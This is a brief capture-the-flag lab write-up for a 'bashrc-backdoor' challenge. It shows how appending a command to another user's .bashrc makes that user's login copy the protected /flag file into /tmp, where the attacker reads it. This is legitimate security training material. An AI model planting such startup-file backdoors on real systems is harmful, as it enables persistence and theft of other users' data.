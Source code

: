 ### Challenge

To collect the flag, plant a command into `/home/zardus/.bashrc` that runs when `/challenge/victim` logs in, then run `/challenge/victim` and capture the output to retrieve the flag

### Thought Process

Firstly I'll have to add a command to zardus's `.bashrc` that will:
- Read the flag (zardus has permission)
- Make it accessible for me (the hacker user)
Then I need to run `/challenge/victim` which simulates the log in of zardus 

### Solution


```bash
hacker@shenanigans~bashrc-backdoor:~$ echo "cat /flag > /tmp/flag_output" >> /home/zardus/.bashrc
hacker@shenanigans~bashrc-backdoor:~$ /challenge/victim
Username: zardus
Password: ********
zardus@shenanigans~bashrc-backdoor:~$ exit
logout
hacker@shenanigans~bashrc-backdoor:~$ cat /tmp/flag_output
```
